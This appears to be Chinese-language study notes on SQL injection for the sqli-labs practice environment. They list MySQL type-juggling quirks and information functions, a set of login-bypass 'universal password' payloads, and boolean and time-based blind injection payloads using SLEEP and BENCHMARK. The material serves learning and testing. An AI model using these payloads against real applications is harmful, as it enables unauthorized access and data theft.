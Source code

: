 ## 练习
sqllab
## sql特性
### sql里面弱类型的比较，以下情况都会为true：

- 1='1'
- 1='1.0'
- 1='1后接字母(再后面有数字也可以)'
- 0='除了 非0数字 开头 的字符串'
  
    uname=admin
    &passwd=admin'||'1'='1
## 注入

常用函数：
```
version() 数据库版本
@@datadir 数据库路径
@@version_compile_os
user()
database() 数据库名称
system_user() 系统用户名
current_user() 当前用户名
session_user() 连接数据库的用户名
concat("abc","123")=abc123
concat("abc",0x22,"123")=abc"123
```
### 万能密码
```
'or 1# 
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--
以不同的用户登陆 ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
```

其他待补充 
### bool型注入
一般适用于无回显消息，但是错误的话，页面会不正确的情况，而延时注入适用于在sql语句错误时页面还正常的情况。  

常用函数:
- Length()函数 返回字符串的长度
- Substr()截取字符串
- Ascii()返回字符的ascii码
- if(expr1,expr2,expr3) 判断语句 如果第一个语句正确就执行第二个语句如果错误执行第三个语句
### 延时注入
```sql
(IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false))
-- BENCHMARK()

select sleep(if(length(@@version)=6,20,0));
--长度为6 sleep 2秒，否则0秒。

select sleep(if(ord(mid((select user()),1,1))<150,0,2));
and exists(select * from admin) 
--说明存在表admin
```